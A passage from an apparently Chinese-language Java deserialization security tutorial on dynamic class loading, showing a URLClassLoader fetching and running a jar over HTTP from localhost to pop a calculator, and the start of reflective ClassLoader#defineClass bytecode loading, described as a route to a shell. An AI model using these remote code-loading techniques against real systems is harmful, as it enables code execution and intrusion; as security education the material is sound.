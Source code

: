 ![img](https://drun1baby.top/2022/06/03/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-05-%E7%B1%BB%E7%9A%84%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD/JarFileURLClassLoader.png)

#### HTTP + jar 协议

JAVA

```
package src.DynamicClassLoader.URLClassLoader;  
  
import java.net.URL;  
import java.net.URLClassLoader;  
  
// URLClassLoader 的 HTTP + jarpublic class HTTPJarRce {  
    public static void main(String[] args) throws Exception{  
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:http://127.0.0.1:9999/Calc.jar!/")});  
 Class calc = urlClassLoader.loadClass("src.DynamicClassLoader.URLClassLoader.Calc");  
 calc.newInstance();  
 }  
}
```

- 成功弹出计算器

最灵活的肯定是 http 协议的加载

### 4. 利用 ClassLoader#defineClass 直接加载字节码

不管是加载远程 class 文件，还是本地的 class 或 jar 文件，Java 都经历的是下面这三个方法调用。

![img](https://drun1baby.top/2022/06/03/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-05-%E7%B1%BB%E7%9A%84%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD/JavaRun.png)

从前面的分析可知：

- `loadClass()` 的作用是从已加载的类、父加载器位置寻找类（即双亲委派机制），在前面没有找到的情况下，调用当前ClassLoader的`findClass()`方法；
- `findClass()` 根据URL指定的方式来加载类的字节码，其中会调用`defineClass()`；
- `defineClass` 的作用是处理前面传入的字节码，将其处理成真正的 Java 类
  所以可见，真正核心的部分其实是 defineClass ，他决定了如何将一段字节流转变成一个Java类，Java

默认的 `ClassLoader#defineClass` 是一个 native 方法，逻辑在 JVM 的C语言代码中。

我们跟进 ClassLoader 当中，去看一看 `DefineClass` 是怎么被调用的。

![img](https://drun1baby.top/2022/06/03/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-05-%E7%B1%BB%E7%9A%84%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD/DefineClass.png)

解释一下 `defineClass`

`name`为类名，`b`为字节码数组，`off`为偏移量，`len`为字节码数组的长度。

因为系统的 ClassLoader#defineClass 是一个保护属性，所以我们无法直接在外部访问。因此可以反射调用 `defineClass()` 方法进行字节码的加载，然后实例化之后即可弹 shell

我们编写如下代码

JAVA

```
package src.DynamicClassLoader.DefineClass;  
  
import java.lang.reflect.Method;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// 利用 ClassLoader#defineClass 直接加载字节码  
public class DefineClassRce {  
    public static void main(String[] args) throws Exception{  
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();  
 Method method = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);  
 method.setAccessible(true);  
```